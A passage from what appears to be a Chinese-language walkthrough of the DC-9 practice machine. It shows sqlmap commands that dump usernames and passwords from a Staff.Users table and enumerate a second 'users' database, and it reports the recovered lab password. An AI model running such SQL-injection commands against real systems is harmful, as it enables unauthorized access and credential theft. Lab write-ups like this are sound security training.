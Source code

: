 得到用户名和密码

```bash
sqlmap -r dc9.txt -D  Staff  -T Users -C Password,Username --dump
```

![image-20230811195442165](./imgs/image-20230811195442165.png)

![image-20230811195547685](./imgs/image-20230811195547685.png)

其实也不是去解密网站解密，刚暴出来的用户名和密码两个字段已经把明文给出来了，密文后面跟的就是明文：`transorbital1`

第一个数据库知道了用户`admin` 密码`transorbital1`

然后再去暴第二个数据库`users库`，只有一个`UserDetails`表

```bash
sqlmap -r dc9.txt -D users --tables --batch 
```
